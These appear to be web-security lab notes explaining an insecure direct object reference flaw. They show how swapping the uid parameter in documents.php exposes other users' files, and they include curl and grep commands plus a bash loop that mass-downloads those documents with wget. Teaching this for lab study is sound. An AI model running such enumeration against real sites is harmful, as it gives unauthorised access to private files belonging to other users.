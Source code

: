 Our web application assumes that we are logged in as an employee with user id <font color="#00b050">`uid=1`</font> to simplify things.

When we get to the <font color="#00b050">`Documents`</font> page, we see several documents that belong to our user.
```html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

We see that the page is setting our `uid` with a `GET` parameter in the URL as (`documents.php?uid=1`)
 we can try to replace the uid with uid=2 and see if we get access to other doocumetns

at first the site looks the exact same but if we take a closer look at the source code we see that the actual urls ppoint to different files.



## Mass Enumeration

Instead of manually inspecting each udi we can do this using burp intruder or ZAPs fuzzer. and retrieve all files.

```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
```

We can pick any unique word to be able to `grep` the link of the file. In our case, we see that each link starts with `<li class='pure-tree_link'>`, so we may `curl` the page and `grep` for this line, as follows:

```shell
curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```

However, it is a better practice to use a `Regex` pattern that matches strings between `/document` and `.pdf`, which we can use with `grep` to only get the document links, as follows:
```shell
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```

now lets write a bash script:

```bash
#!/bin/bash
url="http://serverip:port"

for i in {1..10};do
	for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf");do
		wget -q $url/$link
		done
done
```
